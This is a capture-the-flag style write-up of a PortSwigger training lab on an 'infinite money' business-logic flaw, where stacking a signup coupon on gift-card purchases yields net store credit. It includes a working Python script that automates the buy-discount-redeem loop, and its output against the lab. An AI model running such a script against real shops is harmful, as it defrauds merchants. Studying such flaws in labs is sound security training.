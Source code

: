 # Infinite money logic flaw

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money), you'll learn: Infinite money logic flaw! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab has a logic flaw in its purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075600.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075619.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075626.png)

In here, **we can redeem some gift cards.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075751.png)

In the bottom of the home page, we can sign up to their newsletter.

**Let's sign up:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075844.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075851.png)

**Now we can use `SIGNUP30` code for our coupon.**

**Let's try to buy the leather jacket:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080117.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080129.png)

**Then go to `/cart` page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080204.png)

As you can see, we've added that product to our cart.

**Also, we can try to use the `SIGNUP30` coupon:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080247.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080309.png)

It successfully applied the coupon.

**Let's remove that product and try to buy a product:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080523.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080543.png)

It works normally.

**Now, since the application has a function that allows users to redeem gift cards, why not try to buy a gift card?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080846.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080920.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080944.png)

As you can see, we now have a gift card code: `du7uEebi5e`.

**Try to redeem it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220081036.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220081058.png)

**Our store credits added 10 dollars!**

Hmm... How can we abuse this functionality...

Ah! Remember we have the `SIGNUP30` coupon right?

**What if I apply that coupon the the gift card?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220082016.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220082038.png)

**Now the gift card worth `$7.00`. Let's place the order:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220082113.png)

**Then redeem the gift card:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220082247.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220082259.png)

**Oh! Our store credit went from `$89.43` to `$99.43`, and we only used `$7.00` to buy the gift card, which we have added `$3.00` to our store credit!**

**We have infinite money now! Let's write a python script to automate this process:**
```py
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup
from threading import Thread
import re
import argparse

def sendRequests(url, cookie, csrfToken):
    buyGiftCardData = {
        'productId': '2',
        'redir': 'PRODUCT',
        'quantity': 1
    }

    applyCouponData = {
        'csrf': csrfToken,
        'coupon': 'SIGNUP30'
    }

    placeOrderData = {
        'csrf': csrfToken
    }

    # Buy a gift card
    requests.post(url + '/cart', cookies=cookie, data=buyGiftCardData)

    # Apply SIGNUP30 coupon
    requests.post(url + '/cart/coupon', cookies=cookie, data=applyCouponData)

    # Place order and fetch gift card code
    orderText = requests.post(url + '/cart/checkout', cookies=cookie, data=placeOrderData, allow_redirects=True).text

    # Extract the value of gift card code
    soup = BeautifulSoup(orderText, 'html.parser')
    # Find all <td> tags
    tableTd = soup.find_all('td')
    for td in tableTd:
        # The length of the code is always 10 characters long
        if len(td.text.strip()) == 10:
            # Extract the value of the code
            giftCardCode = td.text.strip()

    redeemGiftCardData = {
        'csrf': csrfToken,
        'gift-card': giftCardCode
    }

    # Redeem gift card
    requests.post(url + '/gift-card', cookies=cookie, data=redeemGiftCardData)

    # Check store credit
    myaccountText = requests.get(url + '/my-account', cookies=cookie).text
    soup = BeautifulSoup(myaccountText, 'html.parser')
    # Find <strong> tag
    strongTag = soup.find('strong')
    # Find pattern 123.00
    storeCredit = float(re.search(r'([0-9]+\.[0-9]{2})', strongTag.text).group(0))

    if storeCredit >= 935.90:
        print('[+] You now can buy the leather jacket WITH the SIGNUP30 coupon.')
        print(f'[+] Store credit: ${str(storeCredit)}')
        exit()
    else:
        # \r to clean previous line
        print(f'[*] Current store credit: ${str(storeCredit)}', end='\r')

def main():
    # Argument parser
    parser = argparse.ArgumentParser(description='Exploit infinite money logic flaw in PortSwigger business logic vulnerabilities lab.')
    parser.add_argument('-u', '--url', metavar='URL', required=True, help='Full URL of the lab. E.g: https://0a9b002b0469da23c5c03cf3003e007b.web-security-academy.net')
    parser.add_argument('-c', '--cookie', metavar='Cookie', required=True, help='Session cookie of your user wiener. E.g: Efi6qVmgThhBsbkiTeugTPMQQ2DtofbC')
    parser.add_argument('-t', '--token', metavar='CSRF_Token', required=True, help='CSRF token. E.g: yVr8Bdqr24wuRU6e6IjZCkdgEhfY3s3c')
    args = parser.parse_args()

    url = args.url
    cookie = {'session': args.cookie}
    csrfToken = args.token

    while True:
        # Create each thread to run function sendRequests(url, cookie, csrfToken)
        thread = Thread(target=sendRequests, args=(url, cookie, csrfToken))
        # Start the thread
        thread.start()
        # Wait for previous thread finish
        thread.join()

if __name__ == '__main__':
    main()
```

**Now, let the script runs, until we have at least `$1337.00` store credit:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10]
└─# python3 exploit.py -u https://0a9b002b0469da23c5c03cf3003e007b.web-security-academy.net -c Efi6qVmgThhBsbkiTeugTPMQQ2DtofbC -t yVr8Bdqr24wuRU6e6IjZCkdgEhfY3s3c
[*] Current store credit: $102.43
[...]
[+] You now can buy the leather jacket WITH the SIGNUP30 coupon.
[+] Store credit: $1129.43
```

**Now the store credit reaches above `$935.90`, let's buy the leather jacket with the coupon!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220102223.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220102240.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220102252.png)

We did it!

# What we've learned:

1. Infinite money logic flaw